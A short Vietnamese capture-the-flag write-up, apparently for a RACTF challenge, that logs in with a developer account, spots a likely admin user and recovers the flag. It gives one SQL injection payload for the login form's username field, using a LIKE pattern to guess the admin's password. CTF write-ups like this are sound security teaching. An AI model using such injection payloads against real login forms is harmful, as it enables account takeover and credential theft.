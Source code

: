 ![image-20200608195922439](images/image-20200608195922439.png)



![image-20200608200018078](images/image-20200608200018078.png)



Dựa vào tài khoản develop từ bài [Entry Point](EntryPoint.md) đăng nhập vào thử ta thu được:

![image-20200608200207603](images/image-20200608200207603.png)



Ta nhận thấy tài khoản **jimmyTehAdmin** được in đậm và có từ **Admin** trong chuỗi, nên rất có thể là tài khoản admin. Thử sqli với form đăng nhập

Payload: username=**jimmyTehAdmin' or password LIKE 'a%’—**&password=1

Flag: **ractf{!!!4dm1n4buse!!!}**

![image-20200608200347540](images/image-20200608200347540.png)